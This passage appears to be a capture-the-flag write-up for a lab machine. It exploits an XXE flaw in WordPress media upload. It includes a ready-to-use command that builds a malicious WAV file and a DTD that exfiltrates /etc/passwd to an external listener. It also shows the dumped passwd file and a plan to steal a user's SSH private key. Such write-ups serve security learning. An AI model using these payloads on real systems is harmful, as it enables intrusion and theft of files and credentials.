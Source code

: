     First of all I have to create two files for the exploitation

    - `payload.wav`
    
        `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.6:4321/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

    - `evil.dtd`
    ```xml
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.6:4321/?p=%file;'>">
    ```

    Now I have to open a php server to receive the result of the XXE as a GET response: `php -S 0.0.0.0:4321`

    Perfect, now I upload the `payload.wav` file to the site at the following url: [`http://metapress.htb/wp-admin/upload.php`](http://metapress.htb/wp-admin/upload.php)

    I decode the answer in base64
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
    sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
    jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
    systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
    systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
    mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
    proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
    ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
    ```

- I particularly notice the user `jnelson`, so I try to get his private key (`/home/jnelson/.ssh/id_rsa`) to enter the box with ssh
